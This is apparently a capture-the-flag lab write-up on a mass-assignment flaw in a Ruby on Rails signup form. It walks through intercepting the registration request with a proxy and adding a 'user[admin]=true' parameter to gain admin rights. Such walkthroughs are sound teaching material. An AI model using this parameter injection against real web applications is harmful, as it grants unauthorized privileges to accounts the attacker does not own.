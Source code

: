 # Write Up

## Challenge name
Authorization 04

## description

When people started building websites with databases to store information, they had to do write a lot of SQL manually. However, some people realized that this was not the best solution and started working on smarter alternatives, building Object-Relational Mapping (ORM) to easily query the database without any SQL knowledge.

For example, in Ruby (using ActiveRecord), you can do things like:

@user = User.find_by_name('pentesterlab')
Copy
This will automatically generate and execute the query, then retrieve the result in a User object.

Another really handy usage is to automatically create and update an object from a hash:

@user = User.create(myhash) 
[...]
@user.update_attributes(anotherhash)
Copy
Unfortunately, this useful feature comes with a security price.

If a developer did not correctly ensure that attributes of the object @user were protected, an attacker could arbitrarily overwrite any of these attributes. In this section, we will see some common examples of these types of issues: Mass-Assignment.

In this example, you can register a user. The application has two levels of privileges:

User.
Admin.
The admin privilege is set using the attribute admin on the object user. If you look closely at the format used by the web application: user[username] and user[password], you should be able to find a way to get admin access. Three methods can be used:

Modify the page directly using a browser extension.
Save the page and modify offline to create a page that will send the right payload to the right URL.
Use a proxy to intercept the legitimate request and add your parameter (the fastest option).

## solution
- go to the url
- there is a form to register an user
  - using myuser:mypass
  - we an error "You don't have admin privileges."
- check again myuser:mypass
- check the code
```
<form action="/signup" method="post">
  Username: <input type="text" name="user[username]">
  Password: <input type="password" name="user[password]">
  <input type="submit" name="submit">
</form>
```
- we can se some parameters for "user"
  - user[username]
  - user[password]
- using a proxy we get:
  - user[username]=myuser&user[password]=myuser&submit=Enviar
- user could have more parameters, which we could access using the brackets
- after trying i got a response with
  - ser[admin]
  - which we could set to true and send it with the form
- using burp submit
```
user[username]=myuser&
user[password]=myuser&
user[admin]=true&
submit=Enviar
```
- to pass admin privileges
- after forwarding the request we get a response
- we got admin privileges and the flag is shown in the page

## flag
```
flag{}
```
<details>
  <summary>Example</summary>

  ```
  long console output here
  ```
</details>
